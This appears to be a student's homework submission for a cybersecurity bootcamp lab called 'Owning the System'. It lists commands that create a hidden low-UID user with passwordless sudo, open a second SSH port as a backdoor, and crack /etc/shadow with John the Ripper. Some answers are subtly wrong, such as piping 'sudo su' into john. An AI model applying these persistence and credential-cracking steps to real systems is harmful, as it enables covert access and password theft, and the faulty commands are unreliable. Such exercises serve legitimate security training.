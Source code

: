 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo adduser -r sysd

2. Give your secret user a password: 
    - sudo passwd sysd

3. Give your secret user a system UID < 1000:
    - sudo usermod -u 468 sysd

4. Give your secret user the same GID:
   - sudo groupmod -g 468 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  sudo visudo
      # User privilege specification
      sysd ALL=(ALL:ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password:
   -  sudo -l -U sysd
      passwd sysadmin

**Step 2: Smooth Sailing**
    
1. Edit the `sshd_config` file:
sudo nano etc/ssh/sshd_config 
    ```#SSH access via port 2222
    port 22
    port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh.service

2. Exit the `root` account:
    - su sysd

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
    - sudo su | john /etc/shadow

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

